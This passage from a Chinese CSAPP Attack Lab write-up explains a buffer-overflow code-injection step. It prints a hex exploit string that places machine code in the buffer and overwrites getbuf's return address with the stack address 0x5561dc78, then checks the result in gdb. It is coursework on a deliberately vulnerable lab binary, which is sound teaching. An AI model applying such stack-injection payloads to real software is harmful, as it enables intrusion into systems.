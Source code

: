 把字节码填到solution2的开头，并将getbuf返回地址改成 **0x5561dc78**，也就是缓冲区首地址。最后的solution2如下：

```
8b 3c 25 fa 97 b9 59 8b 24 25 ec 17 40 00 c3 16 17 18 19 20
01 02 03 04 05 06 07 08 09 10 11 12 13 14 15 16 17 18 19 20
78 dc 61 55
```

然后gdb调试到getbuf返回前：

![6](/static/csapp_lab3_6.png)

可以看到相应代码的字节码已经放在栈上了，白底为返回地址。使用n执行下一条汇编代码。

![7](/static/csapp_lab3_7.png)

rip已经指向了栈上的代码，接着使用n执行栈上的代码。

![8](/static/csapp_lab3_8.png)

